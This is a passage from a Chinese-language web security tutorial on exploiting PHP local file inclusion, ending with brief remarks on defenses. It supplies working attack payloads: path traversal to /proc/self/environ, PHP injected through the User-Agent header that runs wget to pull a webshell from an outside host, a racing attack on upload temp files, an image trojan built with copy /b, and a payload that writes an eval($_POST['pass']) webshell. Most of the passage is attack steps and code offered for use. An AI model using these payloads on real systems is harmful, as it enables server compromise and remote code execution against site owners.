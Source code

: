 1. php以cgi方式运行，这样environ才会保持UA头。
2. environ文件存储位置已知，且environ文件可读。

姿势：

```
proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。之后再包含它，即可。
```

?file=../../../../../../../proc/self/environ

选择User-Agent 写代码如下：

```
<?system('wget http://www.yourweb.com/oneword.txt -O shell.php');?>
```

然后提交请求。

#### 包含临时文件

```
php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。另一种方法phpinfo来获取临时文件的路径以及名称,然后临时文件在极短时间被删除的时候,需要竞争时间包含临时文件拿到webshell。
```

#### 包含上传文件(图片)

很多网站通常会提供文件上传功能，比如：上传头像、文档等，这时就可以采取上传一句话图片木马的方式进行包含。

图片马的制作方式如下，在cmd控制台下输入：

```php
进入1.jph和2.php的文件目录后，执行：
copy  1.jpg/b+2.php  3.jpg
将图片1.jpg和包含php代码的2.php文件合并生成图片马3.jpg
```

假设已经上传一句话图片木马到服务器，路径为`/upload/201811.jpg`
图片代码如下：

```php
<?fputs(fopen("shell.php","w"),"<?php eval($_POST['pass']);?>")?>
```

然后访问URL：`http://www.xxxx.com/index.php?page=./upload/201811.jpg`，包含这张图片，将会在`index.php`所在的目录下生成`shell.php`

### 有防御的本地文件包含

文件名后缀固定：在包含的文件名后加固定后缀

文件名过滤 :使用switch array限制可以包含的文件名

审计中可见这样的包含模版文件：

```php
<?php
    $file = $_GET['file'];
    include '/var/www/html/'.$file.'/test/test.php';
?>
```

